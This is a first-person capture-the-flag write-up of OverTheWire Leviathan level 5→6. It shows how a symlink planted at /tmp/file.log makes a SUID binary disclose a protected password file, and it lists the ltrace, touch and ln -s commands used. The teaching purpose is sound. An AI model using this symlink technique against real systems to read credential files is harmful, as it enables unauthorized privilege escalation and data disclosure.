

## Leviathan Level 5 → 6

**Concept:** Symlink attack against a SUID binary performing insecure file operations
**Difficulty:** Medium
**Tools Used:** ls, ltrace, touch, ln

---

### What the level gives you

After logging in as `leviathan5`, I found a SUID binary named `leviathan5`. Unlike previous levels, the binary did not request a password and immediately attempted to access a file when executed.

Because the binary was owned by `leviathan6` and executed with elevated privileges, understanding which file it accessed and how that file was used became the focus of the challenge.

---

### Enumeration

I began by listing the contents of the home directory and identifying the SUID executable `leviathan5`. Since there were no accompanying files or instructions, I executed the binary to observe its behaviour.

The program immediately failed with the error:

```text
Cannot find /tmp/file.log
```

This was an important clue because it revealed a hardcoded file path that the binary expected to exist.

To better understand what the program was doing internally, I executed it under `ltrace`. The trace confirmed that the binary attempted to access `/tmp/file.log` using standard file operations before terminating when the file was not found.

The fact that a privileged binary trusted a world-writable location such as `/tmp` immediately suggested a potential symlink attack.

---

### Analysis

The turning point came from recognizing that `/tmp` is writable by all users.

The `ltrace` output showed the binary checking for the existence of:

```text
/tmp/file.log
```

Because I could control files within `/tmp`, I could also control what object existed at that path.

My first test involved creating a normal file:

```bash
touch /tmp/file.log
```

The binary executed successfully but did not provide anything useful.

The key insight was that the binary did not appear to validate whether the target was a regular file or a symbolic link. If it blindly opened whatever existed at `/tmp/file.log`, I could redirect that path toward a protected resource.

I replaced the file with a symbolic link pointing to:

```text
/etc/leviathan_pass/leviathan6
```

When the SUID binary accessed `/tmp/file.log`, it followed the symbolic link and opened the password file using the privileges of `leviathan6`.

As a result, the contents of the protected file were disclosed, providing the password for the next level.

---

### Exploitation

```bash
# Step 1: Log in as leviathan5
ssh leviathan5@leviathan.labs.overthewire.org -p 2223

# Step 2: Enumerate files and identify the SUID binary
ls -la

# Step 3: Execute the binary to observe its behaviour
./leviathan5

# Step 4: Trace the binary to identify which file it accesses
ltrace ./leviathan5

# Step 5: Create the expected file path
touch /tmp/file.log

# Step 6: Verify program behaviour with a normal file
./leviathan5

# Step 7: Replace the file with a symbolic link to the password file
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log

# Step 8: Execute the binary again
./leviathan5

# Output / password captured:
# [REDACTED]
```

---

### Screenshot



---

### Real-world relevance

Symlink attacks are a well-known privilege escalation technique against privileged programs that operate on predictable file paths in world-writable directories. Administrators and developers frequently assume that a file path refers to a trusted file without validating whether it is actually a symbolic link.

Similar vulnerabilities have appeared in backup utilities, log processing services, package installers, cron jobs, and system maintenance scripts. During Linux privilege escalation assessments, auditors routinely inspect SUID binaries and scheduled tasks for unsafe file operations involving `/tmp` or other user-controlled locations.

---

### What I'd do differently

Once the error message exposed a hardcoded file path inside `/tmp`, I would immediately consider symlink attacks before testing normal file creation. User-controlled temporary directories combined with elevated privileges are a common source of privilege escalation vulnerabilities.
